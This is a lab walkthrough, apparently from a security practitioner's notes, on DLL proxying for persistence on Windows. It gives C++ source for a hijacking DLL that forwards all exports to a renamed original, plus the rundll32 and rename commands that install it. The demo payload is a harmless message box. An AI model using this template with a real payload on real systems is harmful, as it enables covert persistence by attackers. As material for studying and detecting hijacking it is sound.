


# DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:


## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll \(this is the DLL we are hijacking\) to legit1.dll \(this is still the same DLL we are hijacking, just with a new name\) 
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:



```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```



Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:


To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```text
rundll32 c:\temp\legit.dll,exportedFunction1
```


We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:



```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```



The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward \(technical name is `Forward Export`\) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:


Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```text
rundll32 malicious.dll,whatever
```


### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept. 

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:


Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```text
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```



### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:



Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept_apis_dll_redirection.pdf)

